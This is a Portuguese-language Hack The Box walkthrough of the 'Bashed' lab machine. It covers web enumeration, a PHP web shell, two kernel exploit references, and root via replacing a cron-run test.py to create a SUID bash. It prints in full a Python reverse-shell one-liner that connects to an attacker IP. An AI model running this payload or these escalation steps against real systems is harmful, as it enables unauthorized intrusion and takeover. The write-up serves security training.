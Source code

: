 ```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy, CVE 2017-6074, CVE 2017-16995, kernel exploit]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/1.jpg)

## Enumeration

Iniciamos a enumeracao, usando o autorecon para ganhar tempo...

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/2.jpg)

Em paralelo eu estava olhando o site manualmente, de inicio vc ja encontra algumas dicas sobre a maquina..

Apos isso, fui verificar o output do autorecon e encotrei algumas coisas interessantes

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/3.jpg)

Veja o code de cada dir encontrado, os de `code 308` sao os mais imnportantes, entao precisava verificar cada um deles, ao verificar o `/dev` encontro o que eu estava procurando.. o `phpbash.php` entao ali eu ja tinha um bash em php, eu precisava agora ter uma reverse shell.

## Reverse Shell

Usando a tool [gorevpop](https://github.com/an4kein/gorevpop) que eu criei recentemente usando Go, gerei um payload python3 e em seguida ja estava com uma reverse shell

```
root@kali:~/HTB-Linux/bashed# go run /opt/gorevpop/main.go 19 10.10.14.25 443                                        

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/4.jpg)

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/5.jpg)

## Privilege Escalation

### With CVE: 2017-6074

`Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation`

***reference*** https://www.exploit-db.com/exploits/41458

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/6.jpg)

### With CVE: 2017-16995

`
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation`


***reference*** https://www.exploit-db.com/exploits/44298

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/7.jpg)

### Process

Analisando um pouco mais, o usuario `scriptmanager` nao precisa de password para executar, usando o `sudo`

`(scriptmanager : scriptmanager) NOPASSWD: ALL`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/8.jpg)

Depois de trocar de usuario comm o seguinte comando `sudo -u scriptmanager /bin/bash`

antes de obter root usando kernel exploit estava analisando os processos, para identificar algo sendo executado pelo o root.. usei o [pspy](https://github.com/DominicBreuker/pspy)

![9.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/9.jpg)


Veja que em minuto em minuto  o `root` abre o `/scripts` em seguida executa o test.py. Entao, eu criei o  meu proprio `test.py` e troquei pelo o existente.

![10.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/10.jpg)

Feito, isso. eh so aguardar um minuto e nosso `rootbash` sera criado com o `suid` de root no `\tmp`

antes: 

![11.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/11.jpg)

depois:

![12.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/12.jpg)

Agora, basta ir ate o `\tmp` da permissao de execucao ao `rootbash`  `chmod +x rootbash` em seguida executar `rootbash -p` e teremos nossa shell de root

![13.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/13.jpg)









